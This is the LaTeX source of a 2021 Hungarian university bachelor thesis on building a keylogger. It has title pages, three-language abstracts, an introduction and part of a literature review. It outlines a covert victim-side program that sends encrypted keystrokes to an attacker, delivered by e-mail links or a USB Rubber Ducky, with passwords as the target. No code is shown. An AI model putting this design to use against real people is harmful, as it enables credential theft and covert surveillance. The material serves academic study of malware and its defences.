\documentclass[12pt,a4paper,oneside]{report}

\usepackage{ifxetex}
\ifxetex
  \usepackage{fontspec}
\else
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{lmodern}
\fi

\usepackage[magyar]{babel} % Alapértelmezés szerint utoljára definiált nyelv lesz aktív, de később külön beállítjuk az aktív nyelvet.

\usepackage{combelow}
\usepackage{newunicodechar}

\newunicodechar{Ș}{\cb{S}}
\newunicodechar{ș}{\cb{s}}
\newunicodechar{Ț}{\cb{T}}
\newunicodechar{ț}{\cb{t}}

\usepackage{cmap}
\usepackage{amsfonts,amsmath,amssymb} % Mathematical symbols.
\usepackage[ruled,boxed,resetcount,linesnumbered]{algorithm2e} % For pseudocodes.
\def\algorithmcfname{algoritmus}
\makeatletter
\renewcommand{\fnum@algocf}{\AlCapSty{\AlCapFnt\thealgocf.\nobreakspace\algorithmcfname}}
\makeatother

\usepackage{booktabs} % For publication quality tables for LaTeX
\usepackage{sidecap}

%\usepackage{fancyhdr}
%\usepackage{lastpage}

\usepackage{anysize}
\usepackage{sectsty}

% For hyperlinks in the generated document. 
\usepackage{color}

%\usepackage[amsmath,thmmarks]{ntheorem} % Theorem-like environments.

\usepackage[hang]{caption}
\usepackage{scrextend}

\usepackage{indentfirst}
\usepackage{pdfpages}

\usepackage{xfrac}
\usepackage{eurosym}

\usepackage{fullpage} % a margokra is lehessen irni

\newcommand{\vigyazat}{\marginpar{\textcolor{red}{\emph{Vigy\'azat!}}}}

\usepackage{tikz}
\usepackage{verbatim}
\usetikzlibrary{arrows,shapes}
\usetikzlibrary{positioning}
\tikzset{main node/.style={circle,fill=blue!20,draw,minimum size=1cm,inner sep=0pt},
}



%\usepackage[none]{hyphenat}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{multicol}
\usepackage{float}
\usepackage{ragged2e}
\usepackage{setspace}
\usepackage{indentfirst}
\usepackage{adjustbox}
\usepackage[normalem]{ulem}
%\usepackage{algpseudocode}
\usepackage{listings}
%\usepackage[left=4cm, right=3cm, top=3cm]{geometry}
\usepackage[backend=biber]{biblatex}
\addbibresource{references.bib}


\newcommand{\szakHU}{INFORMATIKA SZAK} % SZOFTVERFEJLESZTES
\newcommand{\szakRO}{SPECIALIZAREA INFORMATIC\v A} % SPECIALIZAREA DEZVOLTAREA APLICA\c TIILOR SOFTWARE
\newcommand{\szakEN}{INFORMATION TECHNOLOGY SPECIALIZATION} %SOFTWARE DEVELOPMENT SPECIALIZATION


\newcommand{\dolgozattipusHU}{DIPLOMADOLGOZAT} % MESTERI DISSZERT\'ACI\'O
\newcommand{\dolgozattipusRO}{LUCRARE DE DIPLOM\v A} %TEZA DE MASTERAT
\newcommand{\dolgozattipusEN}{BACHELOR THESIS} % MASTER THESIS

\newcommand{\szerzo}{Felmeri Zsolt} % Szerző neve
\newcommand{\temavezetoA}{Dr. Szántó Zoltán}

\newcommand{\temavezetoAfokozat}{Egyetemi tan\'ar}% Első konzulens neve
\newcommand{\temavezetoAfokozatRo}{Profesor universitar}
\newcommand{\temavezetoAfokozatEn}{Full Professor}
\newcommand{\temavezetoB}{} % Második konzulens neve; hagyd üresen, ha egy konzulensed van.
\newcommand{\cimHu}{Keylogger} % Cím
\newcommand{\cimRO}{Keylogger}
\newcommand{\cimEN}{Keylogger}
\newcommand{\ev}{2021} %az aktualis ev

%--------------------------------------------------------------------------------------
% Elnevezések
%--------------------------------------------------------------------------------------
\newcommand{\dolgozatnyelve}{\selectlanguage{magyar}}



\newcommand{\bsc}{Diplomadolgozat}
\newcommand{\msc}{Disszert\'aci\'os dolgozat}

\newcommand{\pelda}{Példa}
\newcommand{\definicio}{Definíció}
\newcommand{\tetel}{Tétel}

\newcommand{\bevezeto}{Bevezető}
\newcommand{\koszonetnyilvanitas}{Köszönetnyilvánítás}
\newcommand{\abrakjegyzeke}{Ábrák jegyzéke}
\newcommand{\tablazatokjegyzeke}{Táblázatok jegyzéke}
\newcommand{\irodalomjegyzek}{Irodalomjegyzék}
\newcommand{\fuggelek}{Függelék}


\newcommand{\englishParagraph}{
	\setlength{\parindent}{0em} % angol nyelvű dokumentumokban jellemző
	\setlength{\parskip}{0.5em} % angol nyelvű dokumentumokban jellemző
	\nonfrenchspacing
}

\newcommand{\hungarianParagraph}{
	\setlength{\parindent}{2em} % angol nyelvű dokumentumokban jellemző
	\setlength{\parskip}{0em}   % angol nyelvű dokumentumokban jellemző
	\frenchspacing
}

\newcommand{\defaultParagraph}{
	\hungarianParagraph
}

%--------------------------------------------------------------------------------------
% Page layout setup
%--------------------------------------------------------------------------------------
% we need to redefine the pagestyle plain
% another possibility is to use the body of this command without \fancypagestyle
% and use \pagestyle{fancy} but in that case the special pages
% (like the ToC, the References, and the Chapter pages)remain in plane style

\usepackage{smartdiagram}
\usepackage{tikz,pgf}
\usepackage{pgfplots}
\pgfplotsset{width=7cm,compat=1.8}
\usetikzlibrary{matrix,calc,shapes}

\tikzset{
	treenode/.style = {shape=rectangle, rounded corners, draw, anchor=center, text width=5em, align=center, top color=white, bottom color=blue!20,inner sep=1ex},
	decision/.style = {treenode, diamond, inner sep=0pt},
	root/.style = {treenode, font=\Large, bottom color=red!30},
	env/.style = {treenode, font=\ttfamily\normalsize},
	finish/.style = {root, bottom color=green!40},
	dummy/.style = {circle,draw}
}


\setcounter{secnumdepth}{0}
\sectionfont{\large\upshape\bfseries}
\setcounter{secnumdepth}{2}

\sloppy % Margón túllógó sorok tiltása.
\widowpenalty=10000 \clubpenalty=10000 %A fattyú- és árvasorok elkerülése
\def\hyph{-\penalty0\hskip0pt\relax} % Kötőjeles szavak elválasztásának engedélyezése


%--------------------------------------------------------------------------------------
% Setup hyperref package
%--------------------------------------------------------------------------------------
\usepackage{xcolor}
\definecolor{bluecite}{HTML}{0875b7}
\usepackage[unicode=true,
bookmarksopen={true},
pdffitwindow=true, 
colorlinks=true, 
linkcolor=bluecite, 
citecolor=bluecite, 
urlcolor=bluecite, 
hyperfootnotes=false, 
pdfstartview={FitH},
pdfpagemode= UseNone]{hyperref}


%--------------------------------------------------------------------------------------
% Set up listings
%--------------------------------------------------------------------------------------



\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}




\definecolor{lightgray}{rgb}{0.95,0.95,0.95}
\definecolor{darkgreen}{RGB}{3,125,80}
\lstset{frame=tb,
	language=python,
	aboveskip=3mm,
	belowskip=3mm,
	showstringspaces=false,
	columns=flexible,
	basicstyle={\small\ttfamily},
	numbers=none,
	numberstyle=\tiny\color{gray},
	keywordstyle=\color{blue},
	commentstyle=\color{codegreen},
	%stringstyle=\color{mauve},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=3,
	backgroundcolor=\color{lightgray},
}
\def\lstlistingname{k\'odr\'eszlet}	


%--------------------------------------------------------------------------------------
% Set up theorem-like environments
%--------------------------------------------------------------------------------------
% Using ntheorem package -- see http://www.math.washington.edu/tex-archive/macros/latex/contrib/ntheorem/ntheorem.pdf
%\swapnumbers
%\theoremstyle{plain}
%\theoremseparator{.}
\newtheorem{example}{\pelda}[section]

%\theoremseparator{.}
%\theoremprework{\bigskip\hrule\medskip}
%\theorempostwork{\hrule\bigskip}
%\theorembodyfont{\upshape}
%\theoremsymbol{{\large \ensuremath{\centerdot}}}
\newtheorem{definition}{\definicio}[section]

%\theoremseparator{.}
%\theoremprework{\bigskip\hrule\medskip}
%\theorempostwork{\hrule\bigskip}
\newtheorem{theorem}{\tetel}[section]

\newtheorem{conclusion}{Következtetés}[section]


%--------------------------------------------------------------------------------------
% Some new commands and declarations
%--------------------------------------------------------------------------------------
\newcommand{\code}[1]{{\upshape\ttfamily\scriptsize\indent #1}}
\newcommand{\doi}[1]{DOI: \href{http://dx.doi.org/\detokenize{#1}}{\raggedright{\texttt{\detokenize{#1}}}}} % A hivatkozások közt így könnyebb DOI-t megadni.

\DeclareMathOperator*{\argmax}{arg\,max}
%\DeclareMathOperator*[1]{\floor}{arg\,max}
\DeclareMathOperator{\sign}{sgn}
\DeclareMathOperator{\rot}{rot}


%--------------------------------------------------------------------------------------
% Setup captions
%--------------------------------------------------------------------------------------

\captionsetup[figure]{
	width=.75\textwidth,
	aboveskip=10pt}
\renewcommand{\captionlabelfont}{\bf}
%\renewcommand{\captionfont}{\footnotesize\it}


%--------------------------------------------------------------------------------------
% Redefine reference style
%--------------------------------------------------------------------------------------
\newcommand{\figref}[1]{\ref{fig:#1}.}
\renewcommand{\eqref}[1]{(\ref{eq:#1})}
\newcommand{\listref}[1]{\ref{listing:#1}.}
\newcommand{\sectref}[1]{\ref{sect:#1}}
\newcommand{\tabref}[1]{\ref{tab:#1}.}


\begin{document} 
%--------------------------------------------------------------------------------------
%	A magyar cimoldal
%--------------------------------------------------------------------------------------
\begin{titlepage}
	\begin{center}
	
		\large{\bfseries SAPIENTIA ERDÉLYI MAGYAR TUDOMÁNYEGYETEM} \\
		\large{\bfseries MAROSVÁSÁRHELYI KAR,} \\
		\large{\bfseries \szakHU} \\[2.5cm]
			\begin{center}
			\includegraphics[scale=2]{images/sapientia-hu}
		\end{center}
		\vspace{0.4cm}
		\Large{\Large  \cimHu}\\[0.8cm]
		\vspace{0.2cm}
		\textsc{\Large \bfseries \dolgozattipusHU}\\[2.5cm]
		
		{
			\large
		
			\renewcommand{\arraystretch}{0.85}
			\begin{tabular}{cc}
				 \makebox[6.5cm]{Témavezető:} & \makebox[6.5cm]{Végzős hallgató:} \\ \noalign{\smallskip}
				 \makebox[6.5cm]{\temavezetoA,} & \makebox[6.5cm]{\szerzo} \\ {\temavezetoAfokozat}
			\end{tabular}
		}
		
		\vfill
		{\large \bfseries \ev}
	\end{center}
\end{titlepage}
%--------------------------------------------------------------------------------------
%	The title page RO
%--------------------------------------------------------------------------------------

\begin{titlepage}
	\begin{center}
	
		\large{\bfseries UNIVERSITATEA SAPIENTIA DIN CLUJ-NAPOCA} \\
		\large{\bfseries FACULTATEA DE ȘTIINȚE TEHNICE ȘI UMANISTE,} \\
		
		\large{\bfseries \szakRO} \\[2.5cm]
		
			\begin{center}
			\includegraphics[scale=2]{images/sapientia-ro}
		\end{center}
		
		\vspace{0.4cm}
		
	
		
		\Large{\Large \cimRO}\\[0.8cm]
		\vspace{0.5cm}
		\textsc{\Large \bfseries \dolgozattipusRO}\\[2.5cm]
		
		{
			\large
		
			\renewcommand{\arraystretch}{0.85}
			\begin{tabular}{cc}
				 \makebox[6.5cm]{Coordonator științific:} & \makebox[6.5cm]{Absolvent:} \\ \noalign{\smallskip}
				 \makebox[6.5cm]{\temavezetoA,} & \makebox[6.5cm]{\szerzo} \\
				 {\temavezetoAfokozatRo}
			\end{tabular}
		}
		
		\vfill
		{\large \bfseries \ev}
	\end{center}
\end{titlepage}
%--------------------------------------------------------------------------------------
%	The title page EN
%--------------------------------------------------------------------------------------

\begin{titlepage}
	\begin{center}
	
		\large{\bfseries SAPIENTIA HUNGARIAN UNIVERSITY OF TRANSYLVANIA} \\
		\large{\bfseries FACULTY OF TECHNICAL AND HUMAN SCIENCES} \\
		\large{\bfseries \szakEN} \\[2.5cm]
		
			\begin{center}
			\includegraphics[scale=2]{images/sapientia-en}
		\end{center}
		\vspace{0.4cm}
		\Large{\Large  \cimEN}\\[0.8cm]
		\vspace{0.5cm}
		\textsc{\Large \bfseries \dolgozattipusEN}\\[2.5cm]
		
		{
			\large
	
			\renewcommand{\arraystretch}{0.85}
			\begin{tabular}{cc}
				 \makebox[6.5cm]{Scientific advisor:} & \makebox[6.5cm]{Student:} \\ \noalign{\smallskip}
				 \makebox[6.5cm]{\temavezetoA,} & \makebox[6.5cm]{\szerzo} \\
				 {\temavezetoAfokozatEn}
			\end{tabular}
		}
		
		\vfill
		{\large \bfseries \ev}
	\end{center}
\end{titlepage}


\includepdf[pages={1}]{Declaratie.pdf}
\pagenumbering{gobble}

\selectlanguage{magyar}
\hungarianParagraph

%----------------------------------------------------------------------------
% Abstract in Hungarian
%----------------------------------------------------------------------------

\chapter*{Kivonat}
Dolgozatom témája egy szoftver alapú keylogger megvalosítása, amelynek több funkcionalitásai vannak, mint egy átlagos keyloggernek. Mint tudjuk a körülöttünk levő világban szinte minden épületben található legalább egy számítógép vagy egy gép, amelyen egy operációs rendszer fut. Ezért kell odafigyelni, hogy ne kerüljünk virtuális támadás áldozatául.

Ahogyan beléptünk az Internet világába egyre nagyobb a rosszindulatú szoftverek általi fenyegetés. Ezért arra törekedtem, hogy egy támadó, azaz hacker, szemszögéből fejlesszem a keyloggert. Viszont nem csak a támadó szemszögéből voltam érdekelt, hanem azzal is szembe akartam nézni, hogy hogyan lehet ezeket megelőzni. Tehát a virus elhárító programok (anti-virus) hogyan előzik meg a keyloggerek telepítését a rendszereken. Kutatásom alkalmával észrevettem, hogy a keyloggereket vállalatoknál is alkalmazzák a számítógépes rendszerek monitorizálásánál.

Tervezés alatt két nagy részre kellett osztani dolgozatot. Tehát két szoftvert kellett tervezni, mivel az egyik a hacker oldalán üzemel és monitorizál, a másik pedig az áldozat operációs rendszrén lesz telepítve. A hacker oldal fogadja az adatokat, és az áldozat oldala küldi azokat. Az adatok a hálózaton közlekednek, ezért érdemes a csomagokat titkosítani. Például egy jól monitorizált rendszer esetén a hálózaton közlekedő csomagokat követni lehet. A titkosítás célja, hogy ne tudja bárki értelmezni a csomag tartalmát.

Tesztelésre a gyakori operációs rendszereket használtam, úgy virtuális gépeken, mint valós gépeken egyaránt. Célom az volt, hogy az áldozat számára érzékeny adatokat fogjak el, például jelszavakat. Következtetésképpen megállapítjuk, hogy melyik operációs rendszeren lehet megszerezni a bejelentkezési jelszavát a felhasználónak, és hogy melyeken nem sikerül ez.

\vspace*{2cm}

\noindent \textbf{Kulcsszavak:}  keylogger, malware, hacker
\vfill
\selectlanguage{romanian}

%----------------------------------------------------------------------------
% Abstract in Romanian
%----------------------------------------------------------------------------
\chapter*{Rezumat}
Tema tezei este implementarea unui keylogger bazat pe software care are mai multe funcționalități decât un keylogger universal. La nivel mondial, există cel puțin un calculator sau o mașină care funcționează cu ajutorul unui sistem de operare în aproape fiecare clădire. Prin urmare, trebuie să se acordăm atenție pentru a nu fi victima unui atac virtual.

După ce am intrat în lumea Internetului există o amenințare mare, creștând cu timpul, din partea malware-ului. Prin uramre, am încercat să dezvolt un keylogger bazat pe software din perspectiva unui atacator, adică a unui hacker. Însă, eram interesat de perspectiva unui atacator, dar am vrut și să înțeleg cum pot preveni software-urile acestea. Astfel, programele antivirus împiedică instalarea keylogger-urilor pe sisteme. În timpul cercetărilor mele, am observat că keylogger-urile sunt folosite și în companii pentru a-și monitoriza sistemele de calculatoare.

În timpul planificării, proiectul era împărțit în două părți. Așadar, trebuia să proiectez două programe: unul va rula pe partea hackerului și va monitoriza apăsările tastei victimei, iar celălalt va fi instalat pe sistemul de operare a victimei. Software-ul în partea victimei trimite datele, iar partea de hacker le primește. Datele se deplasează prin rețea, deci este o idee bună să criptăm pachetele. De exemplu, pachetele pot fi urmărite în rețea de sisteme bine monitorizate. Scopul criptării este de a împiedica pe oricine să interpete conținutul unui pachet.

Am folosit sisteme de operare obișnuite pentru testare, atât pe mașini virtuale, cât și pe mașini reale. Scopul meu era de a prinde date sensibile de la victimă, cum ar fi parolele. În concluzie, stabilim că pe ce sistem de operare este posibil să se obțină parola de conectare de la utilizator și pe ce sisteme de operare eșuează acest proces.

\vspace*{2cm}


\noindent \textbf{Cuvinte de cheie:} keylogger, malware, hacker

\vfill
\selectlanguage{english}
%\englishParagraph

%----------------------------------------------------------------------------
% Abstract in English
%----------------------------------------------------------------------------
\chapter*{Abstract}
The aim of my thesis is the implementation of a software-based keylogger which has more functionalities than an avrage keylogger. Worldwide there is at least one computer or machine running an operating system in almost every building, as we know. Therefor, care must be taken in order not to be a victim of a virtual attack.

After we entered the world of the Internet, there is a growing threat from malware. Therefore, I tried to develop a software-based keylogger from the persppective of an attacker, i.e hacker. However, I was not only interested in the perspective of an attacker, but I also wanted how I can prevent them. So anti-virus programs prevent keyloggers from being installed on systems. During my research, I noticed that keyloggers are also used in companies to monitor their computer systems.

During planning, the project had to be divided into two parts. So two softwares had to be designed: one will run on the hacker's side and monitor the victim's keystrokes and the other one ill be installed on the victim's operating system. The victim side sends the data and the hacker side receives it. The data travels over the network, so it is a good idea to encrypt the packets. For example, with well-monitored system packets traveling on the network can be tracked. The purpose of encryption is to prevent anyone from interpeting the content of a package.

I used common operating systems for testing, both on virtual machines and real machines as well. My goal was to capture sensitive data from the victim such as passwords. In conclusion, we determine that on which operating system it is possible to obtain the login password from the user and on which operating systems this process fails.

\vspace*{2cm}

\noindent \textbf{Keywords:} keylogger, malware, hacker

\vfill
\dolgozatnyelve
\defaultParagraph

% table of contents
\renewcommand{\contentsname}{Tartalomjegyzék}
\tableofcontents\vfill
\thispagestyle{empty}
\cleardoublepage

% content section (body)
\pagenumbering{arabic}

\hyphenchar\font=-1
\sloppy

\chapter{Bevezető}\label{sec:intro}
Világunk egyre inkább a digitalizálódás fele halad. Ennek következtében már a legtöbb embernek birtokában van legalább egy számítógép, ami lehet hordozható laptop vagy asztali gép. Mivel az emberek 2021-ben rendelkeznek digitális ujjlenyomattal, ezért az adatok bisztonsága előtérbe kerül. Egy ilyen eszköz, amely az adatokkal dolgozik, a keylogger. A keylogger egy olyan szoftver vagy hardver, amely a számítógéphez csatlakoztatott billentyűzet naplózására használandó. A dolgozatban a legnagyobb szerepben a szoftver alapú keylogger részesül. Ugyanakkor, a szoftver kivitelezésénél a támadó szemszöge kerül előtérbe, akinek az a célja, hogy adatokat feltünésmentesen tudjon eltulajdonítani.

A keyloggereknek van jó, illetve rossz oldaluk is. Rosszhírük a filmvilágnak köszönhetően terjedt el rohamosabban, ugyanis a filmekben az úgynevezett hacker használ ilyen és ehez hasonló eszközöket. A mindennapi életből vehetjük akár egy gyanakodó férj vagy feleség példáját. Akár a féltékenység szüleményeként létrejött keylogger segíthet annak a felderítésében, hogy a másik fél kivel kommunikál és akár az egész írásbeli beszélgetés nyomon követhető. A fennebb megadott példák, helyzetek a rossz használati utakról szólnak, viszont egy sokkal helyénvalóbb módja a használatának cégeken belül mutatkozik meg. A cégek esetében, ha hiba keletkezik ellenőrizni lehet, hogy mi is a kiváltó ok, azáltal, hogy nyomon tudják követni az alkalmazottaik számítógép használatát az irodában.

Az első keylogger hardver alapú volt, amit a Szovjet Únió fejlesztett ki a 1970-es évek közepén írógépeket célozva. Megmérte az IBM Selectric írógépek nyomtatófejének mozgását a regionális mágneses mezőre gyakorolt finom hatásokon keresztül, amelyeket a nyomtatófej forgása és mozgásai okoztak. Egy korai keyloggert Perry Kivolowitz írt, és 1983 november 17-én tette közzé az Usenet net.unix-wizards, net.sources. A felhasználói módú program a karakterlisták (kliensek) felkutatásával és kiírásával működött, ahogyan a Unix kernelbe beállították. Az 1970-es években a kémek keyloggereket telepítettek az amerikai nagykövetség és a moszkvai konzulátus épületébe, kihasználva a Selectric II és a Selectric III elektomos írógépek hibáit. A szovjet nagykövetségek elektromos írógépek helyett kézi írógépeket használtak bizalmas információkhoz, nyilván azért, mert nem sebezhetőek az ilyen támadásokkal szemben. 2013-tól az orosz különleges szolgálatok még mindig írógépeket használnak.

Az ellenintézkedések hatékonysága változó, mivel a keyloggerek különböző technikákat alkalmaznak az adatok rögzítésére. Így az ellenintészkedéseknek hatékonynak kell lenniük az adott adatrögzítési technikával szemben is. A grafikus felhasználói felülettel rendelkező operációs rendszereken használható a képernyőn megjelenő billentyűzet. Ez hatékony a hardveres keyloggerek ellen, ugyanis egyértelmű módon nem kerül sor a hagymányos billentyűzet használatára.

A következő fejezetben részletes bemutatásra kerülnek a keyloggerek tipusai és az ellenintézkedések formái.

\section{Célkitűzés}
%bullet formatum
\begin{itemize}
\item Tanulmányozni kell a pynput python modult, amely egy részben a billentyűzet eseményeit kezeli.
\item Tanulmányozni kell a zmq python modult, amely kommunikációs kapcsolatot alakít ki két vagy több gép között.
\item A támadó szemszögéből kell kivitelezni a dolgokat, például az alkalmazás ne tűnjön fel az áldozatnak, hogy fut a gépén.
\item Ki kell dolgozni a támadó (Hacker) részére és a felhasználó (Target) részére egy-egy alkalmazást.
\item Tesztelni az alkalmazást a három gyakori operációs rendszeren (Windows, Linux, MacOS)
\item Futtatható fájl készítése
\item Eljuttatni az alkalmazást a felhasználó (Target) gépére és futtatni azt a háttérben.
\end{itemize}


\chapter{Bibliográfiai tanulmány}\label{sec:bibl}
%bevezetes, hogy mit probalunk korbejarni
A fejezet tartalmazza a keyloggerek és a rosszindulatú szoftverek definícióit, és hogy ezek milyen módszerrel kerülhetnek az áldozat rendszerére. Később, a keyloggerek elleni védelem kerül leírásra.

\section{Definíció}
A keyloggerek egyfajta szoftverek, amelyek rögzítik a billentyűzet billentyűleütéseit, és naplófájlba mentik azokat. Rosszindulatúsága abból fakad, hogy egy harmadik félnek eljuttatja a naplófájlba elmentett adatokat \parencite{ahmed2014survey}. Ennek következtében képesek érzékeny információk, például felhasználónév, PIN-kód és jelszó elfogására.  A rosszindulatú programoknak számos nevük van az angol nyelvben, például: ``malicious code (MC)'', ``malicious software'', ``malware'' és ``malcode''. Az alapvető megnevezés a ``malware'', ami a ``malicious'' és a ``software'' szavakból épül fel. 

Numerous, McGraw és Morrisett a következő képpen definiálták a rosszindulatú kódot \cite{ahmed2014survey}: ``bármely kód, amelyet hozzáadtak, megváltoztattak vagy eltávolítottak egy szoftverrendszerből annak érdekében, hogy szándékozan kárt okozzanak vagy felforgassák a rendszer tervezett funkcióját.''

Egy általános keylogger use-case diagramja \ref{fig:genkeylogger} ábrán látható. Ennek főbb mozzanatai: az áldozat gépének megfertőzése, az áldozat számítógéppel való interakciója, adatgyűjtés és az adatok megtekintése.

A szoftver eljuttatása az áldozat gépére különböző eszközök segítségével történhet, mint például e-mail, USB Rubber Ducky vagy hálózati szerver. E-mail-en keresztül csatolmányban lehetne elküldeni, de az e-mail szerverek blokkolják a futtatható fájlok küldését, mert tartalmazhat malcode-ot. Ezért egy letöltő linket szoktak küldeni, tehát a hálózati szerver az e-mail-lel együtt dolgozik.

A USB rubber ducky egy speciális USB, amit a számítógép billentyűzetként ismer fel. Léteznek úgynevezett ducky szkriptek, amelyeket bináris állományként a Windows NT rendszerek automatikusan lefuttatnak. A bináris állomány úgy hajtódik végre mintha billentyűzettel pötyögnénk be a szöveget csak sokkal gyorsabban kerül kivitelezésre.

A billentyűzet, a mouse használatát és az áldozat mindennapi tevékenységét a számítógéppel nevezzük a számítógéppel való interakciónak.

A köztes elem, amely összeköti a két felet az az Internet. A két fél a világ bármelyik felén lehet, mert a kapcsolat létesítését nem befolyásolja. A szoftver tartalmazhat több kapcsolatot is, de általában csak egyet szokott tartalmazni.

Az adatgyűjtés során az adatok egy, a szoftver által generált, naplóállományba mentődnek el. A több kapcsolatot kialakító szoftvernél figyelembe kell venni, hogy a különböző gépektől elküldött adat ne egymáson, hanem külön legyenek elmentve a kiértékelés szempontjából. Az adatgyűjtés lehet lokálist vagy globális. Lokálisról akkor beszélünk, ha csak egy alkalmazás használatakór kerül elmentésre az adat. A globális adatgyűjtés a rendszer teljes használatát átkarolja.

\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/general\ keylogger}
\caption{Általános keylogger}
\label{fig:genkeylogger}
\end{figure}

\section{Keylogger típusok}
Operációs rendszer szintjén két féle keylogger létezik: magas szintű és alacsony szintű (high-level and low-level) \cite{wood2010keyloggers}. A magas szintű keyloggerek az operációs rendszer felhasználói módjában hajtódnak végre, ezek a felhasználói mód horgainak variációival valósulnak meg. Windows operációs rendszeren a felhasználó billentyű-leütéses eseményeit egy olyan üzenetkezelő mechanizmus jelöli, amely a billentyűzet-ről átadja az adatokat annak az ablaknak, amely válaszol a billentyűleütésre. Ez az üzenetmechanizmus összekapcsolható, hogy a támadónak hozzáférést biztosítson a billentyűleütésekhez még azelőtt. hogy elérnék az alkalmazást.

